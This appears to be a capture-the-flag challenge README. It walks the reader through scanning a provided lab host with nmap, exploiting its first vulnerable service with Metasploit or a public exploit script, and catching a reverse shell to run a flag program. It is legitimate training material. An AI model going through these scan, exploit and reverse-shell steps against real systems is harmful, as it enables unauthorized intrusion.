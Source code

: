 Use nmap to scan for open ports of the host provided at the play link below, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup

Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge

- Run nmap
- Run Metasploit or an exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./red_ch1.flag <SALT>`

#### Nmap
Nmap is a port scanner and a frequently utilized tool in the pocket of any pen-tester.

##### Installing Nmap
 
For RedHat/CentOS: `sudo yum install nmap`

For Debian/Ubuntu: `apt-get install nmap`

##### Scanning with Nmap

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -vv`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports. Examples: `-p22,23,80` -> scan 22,23 and 80 , `-p8000-9000` -> scan a port range, `-p-` -> scan all the ports
* `-A`: Determine service/version and OS info.

For a detailed list of all parameters available please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

Once you run nmap you will uncover a set of open ports. 
What services are running on those ports? Can you navigate to each service in a browser?

#### Metasploit

**Note**: this is the cooler option but you will need to get a bit of setup done and you need your exploit machine to be publicly accessible so the vulnerable machine can "call home".
If you're looking for the quick fix scroll down to the **Exploit Script** option below.

If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the Meterpreter to run. 

##### Docker Install

* For RedHat/CentOS: `sudo yum install docker` or `sudo amazon-linux-extras install docker` (AWS Linux 2)
* For Debian/Ubuntu: `sudo apt install docker.io`

##### Running Docker

* Start Docker with: `sudo service docker start`
* Add permissions to your userto pull and run container images: `sudo usermod -a -G docker ec2-user`
* Logout and relogin.

##### Running the Metasploit Image


Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host IP and port for the target machine
IMPORTANT, if your host is behind a load balancer you should choose 1 of the load balancer IPs for the attack. You can determine the ips with `nslookup <HOST_NAME>`

`set RHOSTS <host>`

`set RPORT <port>`

If your target is running on an encrypted port then you need to enable SSL

`set SSL true`

Set the host IP and port for the machine running Metasploit. This machine should be publcly available and accessible over ports 4444-4450

`set LHOST <remote IP of Metasploit machine>`

`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. 

To drop into a OS shell use the `shell` command.

Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

